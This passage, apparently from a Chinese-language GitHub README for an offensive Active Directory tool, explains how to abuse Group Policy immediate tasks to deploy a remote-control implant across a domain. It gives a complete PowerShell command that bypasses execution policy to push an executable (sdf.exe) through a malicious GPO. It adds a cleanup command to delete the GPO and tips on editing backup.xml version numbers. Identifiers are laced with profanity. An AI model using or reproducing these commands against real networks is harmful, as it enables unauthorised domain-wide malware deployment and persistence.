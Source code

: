 ==存储目标主机信息的文件名进行了随机化，目录不变，但out.txt并不存在，取而代之的是一个以随机字符串命名的文本文件==

### 用法6：部署远控

```
powershell -executionpolicy bypass -command "& { import-module C:\Users\admi
nistrator\Desktop\1.ps1; New-Fusck -DCFqdn WIN-ER6H1V81DV9.mother.fucker -CPFqdn WIN-ER6H1V81DV9.mother.fucker -Backup
Path C:\users\public\downloads -GPODisplayName fuck_your_mother -OUPath 'DC=mother,DC=fuck
er' -User mother.fucker\test -Deploy -DeployFileList C:\Windows\Tasks\policy\1.t
xt -DeployArg sdf.exe }"
```



![1631853561186](https://github.com/wqreytuk/AD_GPO_EXEC/blob/main/005-GPP%20immediate%20task.assets/1631853561186.png)





## 清理

接受以下参数:

- GPODisplayName
  - 要删除的GPO名称

​	

用法示例：

```
powershell -executionpolicy bypass -command "& { import-module C:\Path\To\cs.ps1; clean-butt -GPODisplayName fuck_your_mother }"
```



# 坑

## 1

备份出来的所有文件中只有backup.xml需要改动

 

## 2 

经过测试，GPO备份生成的backup.xml文件中的`UserVersionNumber`节点和`MachineVersionNumber`节点的值和原始GPO的gpt.ini文件中的版本值有关

假设gpt.ini版本值为131080，也就是16进制的20008，亦即用户版本为2，机器版本为8（高位为用户，低位为机器）
